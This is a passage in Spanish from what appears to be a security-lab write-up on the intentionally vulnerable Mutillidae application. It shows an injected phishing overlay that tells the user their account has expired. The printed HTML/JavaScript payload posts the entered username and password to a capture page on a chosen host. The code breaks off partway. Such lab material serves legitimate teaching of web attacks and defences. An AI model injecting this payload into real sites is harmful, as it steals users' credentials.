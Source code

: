 La funcionalidad basica de lo que hace este `payload` es que al usuario le salta una alerta de que su cuenta a expirado y que tiene que insertar las credenciales de nuevo para lo que sea, dichas credenciales se envian a un servidor que nosotros queramos o tengamos para recibirlas por parte del atacante, pero como en este caso no tenemos ningun servidor, lo haremos de la siguiente forma:

La propia pagina de `Mutillidae` tiene por asi decirlo un apartado que actua como nuestro servidor del atacante para que lo que ponga el usuario llegue a ese apartado que nosotros hemos configurado, por lo que nos tendremos que ir a `Data Capture Page` -> `View Captured Data`:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>

Eso actua como nuestro servidor y donde podremos ver las credenciales capturadas, por lo que los cambios que realizaremos al `payload` serian los siguientes.

Primero quitar el `localhost` y poner la IP de la maquina donde esta corriendo `Mutillidae` que en mi caso seria la `192.168.5.177` y en la parte de `lAction` cambiaremos la URL para que le redirija al servidor que en nuestro caso es el `Captured Data`, por lo que pondremos algo como `/src/index.php?page=captured-data.php` quedando algo tal que asi el codigo:

```html
<div id="modal" style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:black;opacity:.5;z-index:999998;">&nbsp;</div>
	<div style="margin:5% auto;width:100%;position:fixed;top:5%;left:5%;z-index:9999999;">
	<div id="idlogin" style="width:405px;position:relative;margin:0 auto;background-color:white;padding:10px;border:1px solid black;">
	<script>
	function capture(theForm){
		var lXMLHTTP;
		try{
			var lData = "username=" + theForm.username.value + "&password=" + theForm.password.value;
			var lHost = "192.168.5.177";
			var lProtocol = "http";
			var lAction = lProtocol + "://" + lHost + "/mutillidae/src/index.php?page=capture-data.php";
			var lMethod = "post";
			try{
				lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
			}catch (e){
				try{
					lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
				}catch(e) {
					try{
						lXMLHTTP = new XMLHttpRequest();
					}catch (e) {
						alert(e.message);
					};//end try
				};//end try
			};//end try

			lXMLHTTP.onreadystatechange = function(){
				if(lXMLHTTP.readyState == 4){
```